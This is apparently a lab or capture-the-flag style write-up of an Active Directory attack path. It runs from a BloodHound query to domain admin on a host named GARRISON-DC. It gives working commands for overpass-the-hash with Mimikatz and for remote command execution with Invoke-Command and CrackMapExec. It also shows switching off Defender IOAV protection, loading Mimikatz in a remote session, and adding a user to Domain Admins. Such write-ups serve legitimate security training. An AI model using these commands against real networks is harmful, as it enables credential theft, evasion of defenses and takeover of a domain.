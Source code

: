 ##Steps to Compromise
Looking at the BloodHound database, we query for shortest path to domain admin, and we can see that 
the serviceacct user is an admin to GARRISON-DC

We successfully got the hash of serviceacct from PRODSRV, using over pass the hash method we can get 
a powershell prompt in the context of this user. We can verify this user is an admin to GARRISON-DC by 
running these commands:
First Over pass the hash:
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:serviceacct 
/domain:[domain] /ntlm:[hash] 
/run:powershell.exe"'
```
Then execute whomai;hostname on domain
```
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName [computername]
```
We can successfully run commands on GARRISON-DC.
We can also verify this by running CrackMapExec with the hash of serviceacct.
```
crackmapexec -u [user] -H [hash] -d [domain] [ip] --shares
```
Using PSRemoting, we can Invoke-Mimikatz by loading a locally loaded function:
```
$sess = New-PSSession -ComputerName [computername]
Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection 
$true} -Session $sess
Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
```
We can also now add examad user to the Domain Admins group.
```
net group "Domain Admins" ad /add /domain
```
